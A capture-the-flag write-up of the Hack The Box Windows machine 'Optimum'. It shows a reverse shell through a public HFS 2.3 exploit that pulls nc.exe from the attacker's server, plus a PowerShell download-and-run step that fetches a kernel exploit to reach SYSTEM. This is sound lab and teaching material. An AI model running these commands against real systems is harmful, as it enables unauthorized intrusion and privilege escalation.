

# Optimum

[Optimum](https://app.hackthebox.com/starting-point) is a Windows machine and though it is marked as easy, I think it stands somewhere between easy and medium. The initial part to gain a foothold and getting the user flag is pretty easy but the part where you need to escalate your privileges is a bit complicated (if you try to explore it in depth).

So, let's begin!

## Enumeration

The first that we must do is determine all the ports that are open on this machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/optimum]
└─$ sudo nmap -p- -sS -T4 -oG open_ports 10.10.10.8          
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-22 22:51 EDT
Nmap scan report for 10.10.10.8
Host is up (0.093s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 148.74 seconds
```

It can be seen that only port 80 is open, so we can check it out from our browser to see what is hosted over there.



It looks like the machine is running something called as "HTTP File Server 2.3" which can be helpful to gain access to the machine. 

## Gaining Foothold

We can try to looks for exploits associated with this service. From a quick google search the first result that comes up is a [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161). We can use the same by copying it to our current work directory via `searchsploit`.

```
┌──(kali㉿kali)-[~/Desktop/htb/optimum]
└─$ searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines (540)

Copied to: /home/kali/Desktop/htb/optimum/39161.py
```

After going through the exploit code, it looks like we need to set up a few things before running this script:

1. We need to find `nc.exe`, copy it in our current directory and then start a web server over there so that the `nc.exe` file can be pulled by the target machine from there (make sure to start the server on port 80). Tjis can be done running the following commands

   ```
   ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ locate nc.exe
   /usr/share/seclists/Web-Shells/FuzzDB/nc.exe
   /usr/share/windows-resources/binaries/nc.exe
                                                                                                       ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ cp /usr/share/windows-resources/binaries/nc.exe .
                                                                                                       ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ python3 -m http.server 80
   Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ```

2. Change the local IP and port number in the script.

   ```
   35		ip_addr = "10.10.16.4" #local IP address
   36		local_port = "1337" # Local Port number
   ```

3. Start a listener on the same port number using the command `nc -nlvp 1337`.

4. Use the target's IP address and port number to run the script.

   ```
   ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ nc -nlvp 1337
   listening on [any] 1337 ...
   connect to [10.10.16.4] from (UNKNOWN) [10.10.10.8] 49250
   Microsoft Windows [Version 6.3.9600]
   (c) 2013 Microsoft Corporation. All rights reserved.
   
   C:\Users\kostas\Desktop>whoami
   whoami
   optimum\kostas
   ```

And there we get access to the machine as the user "kostas" and we can read the user flag as well.

## Privilege Escalation

 Now, here comes the tricky part. We have access to the machine as a normal user but not as SYSTEM yet. To escalate our privileges, we need to find some PrivEsc vulnerability related with the OS version installed on this machine. The best way to do that would be to use a tool called as [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) which we can easily clone and start using as it is just a simple python script. But before that we need to do a few things to set up the tool

*Make sure to run this tool with python2.7*

1. Download the latest update

   ```
   ┌──(kali㉿kali)-[~/Desktop/htb/optimum/Windows-Exploit-Suggester]
   └─$ python2.7 windows-exploit-suggester.py --update 
   [*] initiating winsploit version 3.3...
   [+] writing to file 2022-08-23-mssb.xls
   [*] done
   ```

2. Install `xlrd` module (note that you need `pip2.7` as we are working with python2.7)

   ```
   ┌──(kali㉿kali)-[~/Desktop/htb/optimum/Windows-Exploit-Suggester]
   └─$ pip2.7 install xlrd==1.2.0
   DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
   Defaulting to user installation because normal site-packages is not writeable
   Collecting xlrd==1.2.0
     Using cached xlrd-1.2.0-py2.py3-none-any.whl (103 kB)
   Installing collected packages: xlrd
   Successfully installed xlrd-1.2.0
   ```

   *Make sure you install the version 1.2.0 because the latest version throws an error that it does not support xlsx.*

3. Get the system's information from the target machine and copy it to a file (sysinfo.txt) on your local machine as we need to pass that info to the exploit suggester.

   ```
   C:\Users\kostas\Desktop>systeminfo
   systeminfo
   
   Host Name:                 OPTIMUM
   OS Name:                   Microsoft Windows Server 2012 R2 Standard
   OS Version:                6.3.9600 N/A Build 9600
   OS Manufacturer:           Microsoft Corporation
   OS Configuration:          Standalone Server
   OS Build Type:             Multiprocessor Free
   Registered Owner:          Windows User
   Registered Organization:   
   Product ID:                00252-70000-00000-AA535
   Original Install Date:     18/3/2017, 1:51:36 ��
   System Boot Time:          29/8/2022, 2:48:03 ��
   System Manufacturer:       VMware, Inc.
   System Model:              VMware Virtual Platform
   System Type:               x64-based PC
   Processor(s):              1 Processor(s) Installed.
                              [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2295 Mhz
   BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
   Windows Directory:         C:\Windows
   System Directory:          C:\Windows\system32
   Boot Device:               \Device\HarddiskVolume1
   System Locale:             el;Greek
   Input Locale:              en-us;English (United States)
   Time Zone:                 (UTC+02:00) Athens, Bucharest
   Total Physical Memory:     4.095 MB
   Available Physical Memory: 3.000 MB
   Virtual Memory: Max Size:  5.503 MB
   Virtual Memory: Available: 4.094 MB
   Virtual Memory: In Use:    1.409 MB
   Page File Location(s):     C:\pagefile.sys
   Domain:                    HTB
   Logon Server:              \\OPTIMUM
   Hotfix(s):                 31 Hotfix(s) Installed.
                              [01]: KB2959936
                              [02]: KB2896496
                              [03]: KB2919355
                              [04]: KB2920189
                              [05]: KB2928120
                              [06]: KB2931358
                              [07]: KB2931366
                              [08]: KB2933826
                              [09]: KB2938772
                              [10]: KB2949621
                              [11]: KB2954879
                              [12]: KB2958262
                              [13]: KB2958263
                              [14]: KB2961072
                              [15]: KB2965500
                              [16]: KB2966407
                              [17]: KB2967917
                              [18]: KB2971203
                              [19]: KB2971850
                              [20]: KB2973351
                              [21]: KB2973448
                              [22]: KB2975061
                              [23]: KB2976627
                              [24]: KB2977629
                              [25]: KB2981580
                              [26]: KB2987107
                              [27]: KB2989647
                              [28]: KB2998527
                              [29]: KB3000850
                              [30]: KB3003057
                              [31]: KB3014442
   Network Card(s):           1 NIC(s) Installed.
                              [01]: Intel(R) 82574L Gigabit Network Connection
                                    Connection Name: Ethernet0
                                    DHCP Enabled:    No
                                    IP address(es)
                                    [01]: 10.10.10.8
   Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
   ```

4. Run the exploit suggester.

   ```
   ┌──(kali㉿kali)-[~/Desktop/htb/optimum/Windows-Exploit-Suggester]
   └─$ python2.7 windows-exploit-suggester.py --database 2022-08-23-mssb.xls --systeminfo sysinfo.txt
   [*] initiating winsploit version 3.3...
   [*] database file detected as xls or xlsx based on extension
   [*] attempting to read from the systeminfo input file
   [+] systeminfo input file read successfully (ascii)
   [*] querying database file for potential vulnerabilities
   [*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
   [*] there are now 246 remaining vulns
   [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
   [+] windows version identified as 'Windows 2012 R2 64-bit'
   [*] 
   [E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
   [*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
   [*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
   [*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
   [*] 
   [E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
   [*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
   [*] 
   [M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
   [*]   https://github.com/foxglovesec/RottenPotato
   [*]   https://github.com/Kevin-Robertson/Tater
   [*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
   [*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
   [*] 
   [E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
   [*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
   [*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
   [*] 
   [E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
   [*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
   [*] 
   [E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
   [*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
   [*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
   [*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
   [*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
   [*] 
   [M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
   [*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
   [*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
   [*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
   [*] 
   [E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
   [*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
   [*] 
   [E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
   [*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
   [*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
   [*] 
   [E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
   [*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
   [*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
   [*] 
   [E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
   [*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
   [*] 
   [E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
   [*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
   [*] 
   [E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
   [*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
   [*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
   [*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
   [*] 
   [E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
   [*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
   [*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
   [*] 
   [M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
   [*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
   [*] 
   [E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
   [*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
   [*] 
   [M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
   [*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
   [*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
   [*] 
   [E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
   [*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
   [*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
   [*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
   [*] 
   [E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
   [*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
   [*] 
   [E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
   [*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
   [*] 
   [M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
   [*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
   [*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
   [*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
   [*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
   [*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
   [*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
   [*] 
   [M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
   [*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
   [*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
   [*] 
   [M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
   [*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
   [*] 
   [E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
   [M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
   [*] done
   ```

Now, we have a large number of exploit that we can try to run on this machine. I tried a few of them like MS16-135 ([41015](https://www.exploit-db.com/exploits/41015)) and MS16-032 ([39719](https://www.exploit-db.com/exploits/39719)) but they didn't work. Finally the one that worked for me was [Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)](https://www.exploit-db.com/exploits/41020). We can directly download the compiled executable from [here](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe).

To run the exploit, we need to get it on to the target machine for which we can start a python server on our local machine and then use PowerShell on the target machine to pull the file.

```
C:\Users\kostas\Desktop>powershell -c "(new-object System.net.webclient).downloadfile('http://10.10.16.4:8000/41020.exe', 'C:\Users\kostas\Desktop\exp.exe')"
powershell -c "(new-object System.net.webclient).downloadfile('http://10.10.16.4:8000/41020.exe', 'C:\Users\kostas\Desktop\exp.exe')"
```

All that we need to do now is just run the exploit.

```
C:\Users\kostas\Desktop>exp.exe
exp.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

And there we get access as SYSTEM with which we can read the root flag.

## Some Key Points To Take Away

1. Always try to use different exploits. Make sure to read the versions and architecture that they work on (because on Windows if architecture is different then the exploit might not work)

2. If it looks like the exploit is not working even after making changes, move to the next available exploit.

## References

1. [Optimum](https://app.hackthebox.com/starting-point)
2. [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161)
3. [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
4. [Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)](https://www.exploit-db.com/exploits/41020)
